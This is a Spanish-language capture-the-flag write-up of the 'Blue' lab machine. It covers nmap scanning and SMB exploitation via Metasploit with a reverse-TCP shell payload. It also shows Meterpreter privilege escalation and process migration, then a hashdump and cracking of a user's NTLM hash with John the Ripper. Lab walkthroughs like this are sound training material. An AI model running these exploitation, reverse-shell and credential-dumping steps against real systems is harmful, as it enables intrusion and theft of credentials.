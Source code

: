 ```yaml
---
description: '✍️ Autor: DarkStar7471, ben🔍 Dificultad: Fácil'
---
```


# Blue

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.196.186
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (758).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap 10.10.196.186
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (759).png" alt=""><figcaption></figcaption></figure>

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p135,139,445,3389 -v 10.10.196.186
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (760).png" alt=""><figcaption></figcaption></figure>

Miramos si es vulnerable el puerto 445.

<figure><img src="../../.gitbook/assets/image (761).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (762).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

<figure><img src="../../.gitbook/assets/image (763).png" alt=""><figcaption></figcaption></figure>

```bash
set RHOSTS 10.10.196.186
set payload windows/x64/shell/reverse_tcp
run
```

<figure><img src="../../.gitbook/assets/image (1350).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Después de explotar la máquina y acceder con Meterpreter, verificamos los privilegios:

```
meterpreter > getsystem
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Confirmamos el proceso en el que estamos inyectados:

```
meterpreter > getpid
Current pid: 1312
```

Listamos todos los procesos para revisar:

```
meterpreter > ps
```

Estamos dentro de `spoolsv.exe`, un proceso estable y de confianza en sistemas Windows. Si se reinicia, automáticamente vuelve a cargar, manteniéndonos dentro.

Si comenzamos con una shell básica, podemos convertirla a Meterpreter:

```
post/multi/manage/shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
show options
set SESSION <ID>
run
```

Después de convertir, seleccionamos la nueva sesión Meterpreter con `sessions`. Aunque tengamos privilegios de SYSTEM, es recomendable migrar a un proceso estable que también corra como SYSTEM.

```
meterpreter > ps
3048  TrustedInstaller.exe  NT AUTHORITY\SYSTEM
migrate 3048
```

Podemos abrir un shell del sistema para confirmarlo:

```
meterpreter > shell
C:\Windows\System32> whoami
nt authority\system
exit
```

Con privilegios de SYSTEM, volcamos los hashes:

```
meterpreter > hashdump
Administrator:500:...:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:...:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:...:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Copiamos la línea del usuario Jon y crackeamos.

```
echo "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::" > /tmp/jon_hash.txt
john /tmp/jon_hash.txt --format=NT --wordlist=/usr/share/wordlists/rockyou.txt
```

La contraseña del usuario Jon es alqfna22.
